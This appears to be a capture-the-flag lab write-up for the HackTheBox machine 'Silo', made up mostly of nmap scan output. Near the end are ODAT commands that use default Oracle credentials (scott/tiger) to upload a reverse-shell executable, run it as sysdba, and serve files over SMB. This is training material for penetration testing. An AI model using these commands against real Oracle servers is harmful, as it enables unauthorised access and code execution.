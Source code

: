 ``` SILO - 10.10.10.82```

## NMAP
```
nmap -sS -p- -v 10.10.10.82 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 03:43 EDT
Initiating Ping Scan at 03:43
Scanning 10.10.10.82 [4 ports]
Completed Ping Scan at 03:43, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:43
Completed Parallel DNS resolution of 1 host. at 03:43, 0.00s elapsed
Initiating SYN Stealth Scan at 03:43
Scanning 10.10.10.82 [65535 ports]
Discovered open port 80/tcp on 10.10.10.82
Discovered open port 135/tcp on 10.10.10.82
Discovered open port 445/tcp on 10.10.10.82
Discovered open port 139/tcp on 10.10.10.82
Increasing send delay for 10.10.10.82 from 0 to 5 due to 632 out of 2105 dropped probes since last increase.
SYN Stealth Scan Timing: About 4.93% done; ETC: 03:53 (0:09:58 remaining)
Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.40% done; ETC: 03:57 (0:13:43 remaining)
SYN Stealth Scan Timing: About 6.22% done; ETC: 04:04 (0:19:22 remaining)
SYN Stealth Scan Timing: About 6.85% done; ETC: 04:09 (0:24:14 remaining)
SYN Stealth Scan Timing: About 7.40% done; ETC: 04:14 (0:28:35 remaining)
SYN Stealth Scan Timing: About 8.07% done; ETC: 04:17 (0:31:43 remaining)
SYN Stealth Scan Timing: About 8.70% done; ETC: 04:21 (0:34:28 remaining)
SYN Stealth Scan Timing: About 9.38% done; ETC: 04:23 (0:36:34 remaining)
Stats: 0:04:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 10.53% done; ETC: 04:25 (0:37:40 remaining)
Stats: 0:04:29 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 10.63% done; ETC: 04:25 (0:37:41 remaining)
SYN Stealth Scan Timing: About 13.14% done; ETC: 04:21 (0:32:56 remaining)
Discovered open port 49155/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:18 (0:29:55 remaining)
SYN Stealth Scan Timing: About 17.65% done; ETC: 04:17 (0:27:56 remaining)
Stats: 0:06:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                                                                                            
SYN Stealth Scan Timing: About 18.52% done; ETC: 04:16 (0:27:12 remaining)                                                                                                 
Discovered open port 49162/tcp on 10.10.10.82                                                                                                                              
SYN Stealth Scan Timing: About 21.06% done; ETC: 04:15 (0:25:26 remaining)                                                                                                 
Stats: 0:06:51 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                                                                                            
SYN Stealth Scan Timing: About 21.38% done; ETC: 04:15 (0:25:11 remaining)                                                                                                 
Discovered open port 49154/tcp on 10.10.10.82                                                                                                                              
SYN Stealth Scan Timing: About 23.89% done; ETC: 04:14 (0:23:34 remaining)
SYN Stealth Scan Timing: About 26.87% done; ETC: 04:13 (0:21:54 remaining)
SYN Stealth Scan Timing: About 30.07% done; ETC: 04:12 (0:20:21 remaining)
Discovered open port 49153/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 33.47% done; ETC: 04:11 (0:18:47 remaining)
Stats: 0:09:59 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 36.10% done; ETC: 04:11 (0:17:42 remaining)
SYN Stealth Scan Timing: About 40.61% done; ETC: 04:10 (0:16:18 remaining)
Discovered open port 49158/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 44.99% done; ETC: 04:10 (0:14:51 remaining)
Discovered open port 1521/tcp on 10.10.10.82
Discovered open port 49161/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 49.50% done; ETC: 04:10 (0:13:25 remaining)
Stats: 0:13:18 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.27% done; ETC: 04:09 (0:13:10 remaining)
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.31% done; ETC: 04:09 (0:13:09 remaining)
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.33% done; ETC: 04:09 (0:13:10 remaining)
SYN Stealth Scan Timing: About 54.75% done; ETC: 04:09 (0:11:48 remaining)
SYN Stealth Scan Timing: About 59.63% done; ETC: 04:09 (0:10:27 remaining)
Discovered open port 47001/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 64.66% done; ETC: 04:09 (0:09:07 remaining)
Stats: 0:16:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.83% done; ETC: 04:09 (0:09:04 remaining)
Stats: 0:16:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.88% done; ETC: 04:09 (0:09:04 remaining)
Stats: 0:16:59 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.33% done; ETC: 04:09 (0:08:37 remaining)
Discovered open port 5985/tcp on 10.10.10.82
Discovered open port 49152/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 71.11% done; ETC: 04:08 (0:07:20 remaining)
SYN Stealth Scan Timing: About 75.80% done; ETC: 04:08 (0:06:04 remaining)
SYN Stealth Scan Timing: About 80.75% done; ETC: 04:08 (0:04:47 remaining)
SYN Stealth Scan Timing: About 85.69% done; ETC: 04:08 (0:03:31 remaining)
Discovered open port 49160/tcp on 10.10.10.82
SYN Stealth Scan Timing: About 90.74% done; ETC: 04:07 (0:02:15 remaining)
SYN Stealth Scan Timing: About 95.91% done; ETC: 04:07 (0:00:59 remaining)
Completed SYN Stealth Scan at 04:07, 1459.88s elapsed (65535 total ports)
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1460.37 seconds
           Raw packets sent: 72308 (3.182MB) | Rcvd: 67872 (2.739MB)
```
           


```
nmap -sC -sV -p 80,135,139,445,1521,5985,47001 10.10.10.82
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 04:35 EDT
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m51s, deviation: 0s, median: 2m50s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-10T08:38:36
|_  start_date: 2020-05-10T06:29:17

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds

```

```
nmap -sC -sV -p 49152,48153,49154,49155,49158,49160,49161,49162 10.10.10.82
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 04:50 EDT
Nmap scan report for 10.10.10.82
Host is up (0.22s latency).

PORT      STATE  SERVICE    VERSION
48153/tcp closed unknown
49152/tcp open   msrpc      Microsoft Windows RPC
49154/tcp open   msrpc      Microsoft Windows RPC
49155/tcp open   msrpc      Microsoft Windows RPC
49158/tcp open   msrpc      Microsoft Windows RPC
49160/tcp open   oracle-tns Oracle TNS listener (requires service name)
49161/tcp open   msrpc      Microsoft Windows RPC
49162/tcp open   msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.13 seconds

```

Learn that there are 2 oracle listeners here

1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)


49160/tcp open   oracle-tns Oracle TNS listener (requires service name)


```Odat```

```
https://github.com/quentinhardy/odat
```

```
./odat-libc2.12-x86_64 utlfile -s 10.10.10.82 -d XE -U Scott -P tiger --sysdba  --putFile "C:\Windows\Temp" rev1.exe /root/Desktop/OSCP-Prep/HTB/Windows/Silo/rev1.exe
```

```
./odat-libc2.12-x86_64 externaltable -s 10.10.10.82 -d XE -U Scott -P tiger --sysdba --exec "C:\Windows\Temp" rev1.exe
```


```
File Sharing
```

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

```
https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573
```